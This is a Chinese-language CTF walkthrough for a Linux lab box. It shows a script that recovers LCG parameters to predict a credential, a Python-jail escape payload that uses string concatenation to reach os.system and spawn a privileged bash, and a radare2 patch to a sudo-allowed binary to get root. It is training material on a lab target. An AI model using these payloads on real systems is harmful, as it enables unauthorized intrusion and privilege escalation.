






## Box Info

| OS | Linux |
| --- | --- |
| Difficulty | Hard |

## Nmap

不知道为什么扫得很慢，这里就简略一点

```
[root@kali] /home/kali/predictable  
❯ nmap 172.17.0.2 -p- 

PORT     STATE SERVICE
22/tcp   open  ssh
1111/tcp open  lmsocialserver
```

## Crack Number

访问**1111**端口，在源代码中得到信息

似乎是这个随机数列表的生成逻辑

```
class prng_lcg:
    m = 
    c =
    n = 9223372036854775783

    def __init__(self, seed=None):
        self.state = seed

    def next(self):
        self.state = (self.state * self.m + self.c) % self.n
        return self.state

...

# return int
def obtener_semilla():
    return time.time_ns()

def obtener_semilla_anterior():
    return obtener_semilla() - 1
...

if 'seed' not in session:
	session['seed'] = obtener_semilla()
gen = prng_lcg(session['seed'])

...

gen = prng_lcg(session['seed'])
semilla_anterior = obtener_semilla_anterior()

...
```

逆向破解线性同余生成器（**LCG**）的参数 **m** 和 **c** 是可行的，但需要一些已知的输出值来进行分析，我们已经有了**99**个参数，因此可以写一个脚本计算

```
import requests
from bs4 import BeautifulSoup
from collections import Counter

# 正确定义LCG的模数
MODULUS = 9223372036854775783

def extract_numbers(url):
    response = requests.get(url)
    soup = BeautifulSoup(response.text, 'html.parser')

    second_td_numbers = []
    for tr in soup.find_all('tr'):
        tds = tr.find_all('td')
        if len(tds) > 1:
            second_td_numbers.append(int(tds[1].text))

    filtered_numbers = [num for num in second_td_numbers if num > 100]
    return filtered_numbers

def find_lcg_parameters(random_numbers):
    if len(random_numbers) < 3:
        raise ValueError("需要至少三个连续数字来推导参数")

    # 计算相邻数字的差值
    deltas = [
        (random_numbers[i] - random_numbers[i - 1]) % MODULUS
        for i in range(1, len(random_numbers))
    ]

    m_candidates = []
    for i in range(1, len(random_numbers) - 1):
        try:
            # 计算连续差值的关系
            t1 = deltas[i]  # s_{i+1} - s_i
            t0 = deltas[i - 1]  # s_i - s_{i-1}

            # 计算模逆元并推导m
            inv = mod_inverse(t0, MODULUS)
            m = (t1 * inv) % MODULUS
            m_candidates.append(m)
        except ValueError:
            continue  # 跳过无法计算逆元的情况

    if not m_candidates:
        raise ValueError("无法确定m值，可能需要更多数据")

    # 统计找到最可能的m值
    m = Counter(m_candidates).most_common(1)[0][0]

    # 推导c值
    c = (random_numbers[1] - random_numbers[0] * m) % MODULUS

    return m, c

def extended_gcd(a, b):
    if a == 0:
        return (b, 0, 1)
    gcd, x1, y1 = extended_gcd(b % a, a)
    x = y1 - (b // a) * x1
    y = x1
    return (gcd, x, y)

def mod_inverse(a, m):
    gcd, x, y = extended_gcd(a, m)
    if gcd != 1:
        raise ValueError("模逆元不存在")
    return x % m

# 执行程序
if __name__ == "__main__":
    target_url = "http://172.17.0.2:1111"
    numbers = extract_numbers(target_url)

    try:
        m, c = find_lcg_parameters(numbers)
        print(f"成功破解参数: m={m}, c={c}")
    except Exception as e:
        print(f"错误: {str(e)}")
```



```
m=81853448938945944
c=7382843889490547368
```

接下来就要预测第一百个参数，由于在源码中已经知道了**next**的生成逻辑，因此直接使用就好了

```
print( ( number_99 * m + c ) % n )
```


成功得到凭证

## Pyjail



这里我过滤了**import**、**os**等，可以使用**+**号拼接字符串绕过，我在网上随便找了一个**payload**

```
[ x.__init__.__globals__ for x in ''.__class__.__base__.__subclasses__() if x.__name__=="_wrap_clo"+"se"][0]["sys"+"tem"]("id")
```



进入**shell**只需要开启一个**bash**就行了

```
[ x.__init__.__globals__ for x in ''.__class__.__base__.__subclasses__() if x.__name__=="_wrap_clo"+"se"][0]["sys"+"tem"]("/bin/bash -p")
```



## Root

### Method 1

查看特殊命令

```
mash@predictable:~$ sudo -l
Matching Defaults entries for mash on predictable:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User mash may run the following commands on predictable:
    (root) NOPASSWD: /opt/shell
```

试着运行一下

```
mash@predictable:~$ sudo /opt/shell
Uso: ./shell input
Pista: ./shell -h
mash@predictable:~$ sudo /opt/shell -h
¿Sabias que EI_VERSION puede tener diferentes valores?. radare2 esta instalado

你知道EI_VERSION可以有不同的值吗？radare2已安装
```

经过搜索，**Radare2**是一个逆向工具，他的项目地址👇

- [radareorg/radare2: UNIX-like reverse engineering framework and command-line toolset](https://github.com/radareorg/radare2)

接下来进行分析这个二进制文件

```
[0x000010a0]> aa
INFO: Analyze all flags starting with sym. and entry0 (aa)
INFO: Analyze imports (af@@@i)
INFO: Analyze entrypoint (af@ entry0)
INFO: Analyze symbols (af@@@s)
INFO: Recovering variables
INFO: Analyze all functions arguments/locals (afva@@@F)
[0x000010a0]> afl
0x00001030    1      6 sym.imp.puts
0x00001040    1      6 sym.imp.fread
0x00001050    1      6 sym.imp.system
0x00001060    1      6 sym.imp.printf
0x00001070    1      6 sym.imp.strcmp
0x00001080    1      6 sym.imp.fseek
0x00001090    1      6 sym.imp.fopen
0x000010a0    1     37 entry0
0x000012a0    1     13 sym._fini
0x00001199    9    262 main
0x00001000    3     27 sym._init
0x00001190    5     60 entry.init0
0x00001140    5     55 entry.fini0
0x000010d0    4     34 fcn.000010d0
[0x000010a0]> pdf @ main
            ; DATA XREF from entry0 @ 0x10b8(r)
┌ 262: int main (int argc, char **argv);
│           ; arg int argc @ rdi
│           ; arg char **argv @ rsi
│           ; var int64_t var_8h @ rbp-0x8
│           ; var int64_t var_10h @ rbp-0x10
│           ; var int64_t var_14h @ rbp-0x14
│           ; var int64_t var_20h @ rbp-0x20
│           0x00001199      55             push rbp
│           0x0000119a      4889e5         mov rbp, rsp
│           0x0000119d      4883ec20       sub rsp, 0x20
│           0x000011a1      897dec         mov dword [var_14h], edi    ; argc
│           0x000011a4      488975e0       mov qword [var_20h], rsi    ; argv
│           0x000011a8      837dec02       cmp dword [var_14h], 2
│       ┌─< 0x000011ac      7423           je 0x11d1
│       │   0x000011ae      488d05530e..   lea rax, str.Uso:_._shell_input ; 0x2008 ; "Uso: ./shell input"
│       │   0x000011b5      4889c7         mov rdi, rax
│       │   0x000011b8      e873feffff     call sym.imp.puts           ; int puts(const char *s)
│       │   0x000011bd      488d05570e..   lea rax, str.Pista:_._shell__h ; 0x201b ; "Pista: ./shell -h"
│       │   0x000011c4      4889c7         mov rdi, rax
│       │   0x000011c7      e864feffff     call sym.imp.puts           ; int puts(const char *s)
│      ┌──< 0x000011cc      e9c7000000     jmp 0x1298
│      │└─> 0x000011d1      488b45e0       mov rax, qword [var_20h]
│      │    0x000011d5      4883c008       add rax, 8
│      │    0x000011d9      488b00         mov rax, qword [rax]
│      │    0x000011dc      4889c6         mov rsi, rax
│      │    0x000011df      488d05470e..   lea rax, [0x0000202d]       ; "-h"
│      │    0x000011e6      4889c7         mov rdi, rax
│      │    0x000011e9      e882feffff     call sym.imp.strcmp         ; int strcmp(const char *s1, const char *s2)
│      │    0x000011ee      85c0           test eax, eax
│      │┌─< 0x000011f0      7514           jne 0x1206
│      ││   0x000011f2      488d05370e..   lea rax, str.Sabias_que_EI_VERSION_puede_tener_diferentes_valores_._radare2_esta_instalado ; 0x2030
│      ││   0x000011f9      4889c7         mov rdi, rax
│      ││   0x000011fc      e82ffeffff     call sym.imp.puts           ; int puts(const char *s)
│     ┌───< 0x00001201      e992000000     jmp 0x1298
│     ││└─> 0x00001206      488d05730e..   lea rax, [0x00002080]       ; "r"
│     ││    0x0000120d      4889c6         mov rsi, rax
│     ││    0x00001210      488d056b0e..   lea rax, str.shell          ; 0x2082 ; "shell"
│     ││    0x00001217      4889c7         mov rdi, rax
│     ││    0x0000121a      e871feffff     call sym.imp.fopen          ; file*fopen(const char *filename, const char *mode)
│     ││    0x0000121f      488945f0       mov qword [var_10h], rax
│     ││    0x00001223      488b45f0       mov rax, qword [var_10h]
│     ││    0x00001227      ba00000000     mov edx, 0
│     ││    0x0000122c      be06000000     mov esi, 6
│     ││    0x00001231      4889c7         mov rdi, rax
│     ││    0x00001234      e847feffff     call sym.imp.fseek          ; int fseek(FILE *stream, long offset, int whence)
│     ││    0x00001239      488b55f0       mov rdx, qword [var_10h]
│     ││    0x0000123d      488b45f8       mov rax, qword [var_8h]
│     ││    0x00001241      4889d1         mov rcx, rdx
│     ││    0x00001244      ba01000000     mov edx, 1
│     ││    0x00001249      be01000000     mov esi, 1
│     ││    0x0000124e      4889c7         mov rdi, rax
│     ││    0x00001251      e8eafdffff     call sym.imp.fread          ; size_t fread(void *ptr, size_t size, size_t nmemb, FILE *stream)
│     ││    0x00001256      488b45f8       mov rax, qword [var_8h]
│     ││    0x0000125a      0fb600         movzx eax, byte [rax]
│     ││    0x0000125d      3c01           cmp al, 1
│     ││┌─< 0x0000125f      7423           je 0x1284
│     │││   0x00001261      488b45e0       mov rax, qword [var_20h]
│     │││   0x00001265      4883c008       add rax, 8
│     │││   0x00001269      488b00         mov rax, qword [rax]
│     │││   0x0000126c      0fb600         movzx eax, byte [rax]
│     │││   0x0000126f      3c30           cmp al, 0x30                ; '0'
│    ┌────< 0x00001271      7511           jne 0x1284
│    ││││   0x00001273      488d050e0e..   lea rax, str._bin_bash      ; 0x2088 ; "/bin/bash"
│    ││││   0x0000127a      4889c7         mov rdi, rax
│    ││││   0x0000127d      e8cefdffff     call sym.imp.system         ; int system(const char *string)
│   ┌─────< 0x00001282      eb14           jmp 0x1298
│   │└──└─> 0x00001284      488d05070e..   lea rax, str.Bleh_n         ; 0x2092 ; "Bleh~~\n"
│   │ ││    0x0000128b      4889c7         mov rdi, rax
│   │ ││    0x0000128e      b800000000     mov eax, 0
│   │ ││    0x00001293      e8c8fdffff     call sym.imp.printf         ; int printf(const char *format)
│   │ ││    ; CODE XREFS from main @ 0x11cc(x), 0x1201(x), 0x1282(x)
│   └─└└──> 0x00001298      b800000000     mov eax, 0
│           0x0000129d      c9             leave
└           0x0000129e      c3             ret
```

扔给**Deepseek**快速分析一下

程序大概分为两个部分

```
第一部分

比较argv[1]和“-h”是否相等。如果相等，即strcmp返回0，则跳转到打印提示信息，然后直接退出。因此如果用户输入的是“-h”参数，就会显示帮助信息，不会执行shell。
接下来，如果参数不是“-h”，程序继续执行：

第二部分

程序打开了一个名为"shell"的文件，跳转到第6个字节的位置（偏移量6），然后读取1个字节到var_8h指向的位置。
如果这个字节不等于1，程序继续执行。
如果该字符是'0'，则执行system("/bin/bash")，否则打印Bleh~~。
```

总结一下

- argc必须为2，即程序带一个参数。

- 参数不能是“-h”。

- 程序会打开当前目录下的"shell"文件，读取其第6个字节（偏移量6）的一个字节，该字节必须不等于1。

- 同时，传入的参数的第一个字符必须是'0'（即argv\[1\]\[0\] == '0'）。

使用**r2**进行修改

```
mash@predictable:/opt$ r2 -w shell    # -w is write mode

[0x000010a0]> s 0x06   # jump to addr 0x06
[0x00000006]> w 0      # overwrite 0
[0x00000006]> q        # save and exit
```



### Method 2

由于我们是可以修改**/opt/shell**的，因此可以直接将提权代码追加到其中，这应该算是作者的疏漏？？？



## Summary

`User`：网页源码泄露出随机数生成逻辑，用得到的序列进行反推，得到加密参数，计算出第一百个数字，输入得到登录凭证。

`Root`：**ssh**登录后就是**Pyjail**，过滤关键字可以用**+**号进行拼接，也不是很严格，网上可以随便找**payload**。查看到特殊权限命令，需要使用**r2**工具分析**main**函数的具体功能，修改**0x06**上的字节即可绕过。因为该二进制文件是可写的，所以也可以直接添加提权命令。
